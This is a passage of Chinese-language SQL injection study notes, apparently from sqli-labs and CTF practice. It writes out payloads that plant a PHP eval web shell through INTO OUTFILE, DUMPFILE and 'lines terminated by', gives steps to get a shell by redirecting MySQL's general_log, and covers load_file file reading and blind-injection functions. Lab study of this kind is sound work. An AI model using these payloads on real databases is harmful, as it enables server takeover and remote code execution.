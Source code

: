     `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO OUTFILE '路径' -- -`

    `union select 1, '<?php @eval($_POST['password']); ?>', 3 INTO dumpfile'路径' -- -`

3. `lines terminated by 'webshell 语句'` 在 select 后面使用，作用是在每行终止的位置添加 webshell 语句。

    `select * from users where id='1' into outfile '文件路径' lines terminated by 'webshell 语句'`

4. 同理，有 `lines terminated by` 就有 `lines starting by`

5. 有从头尾插入，就有从中间插入：`fields 或者 columns terminated by`

6. 当有 MySQL 的 root 权限时，可以通过修改 MySQL 的 log 文件来 getshell

    1. 先查看配置，需要 MySQL 的 `general_log` 属性为 on：

        `show variables like '%general%';`

    2. 如果没有开，那就开：

        `set global general_log = on;`

    3. 设置日志目录（为 shell 地址）

        ``set global general_log_file = 'webshell 位置';`

    4. 写入

        `select 'webshell 语句'`

    5. 关闭 `general_log` 模式：

        `set global general_log = off;`

7. 读文件用 `load_file`

8. 常见的默认网站地址：

    

## 5. Less-8(盲注，页面要有查询成功和失败的回显)

1. 在 where 句子中，and 连接的地方，如果子句中出现逻辑 false（and false 或者全是 all or false) 就会是空。

2. 常用函数：

    `substr(String content, int begining, int length)` 截取子字符串

    `ascii(String content)` 将内容转换成十进制的 Ascii

    `length(String content)` 获取长度

    `left(String content, int length)` 从左开始，截取 length 长度的字符串

    `right(String content, int length)` 从右开始。

3. 使用逻辑进行判断时，这些函数的返回值一般是 0 或 1，因此在数字型的情况下，可以直接代替数字进行尝试。

4. 用 `select` 取出的字符串需要用 `()` 来变成字符串，例题：
    [CISCN2019 华北赛区 Day2 Web1]Hack World 1
    ![image-20240515134644484](SQL注入/image-20240515134644484.png)

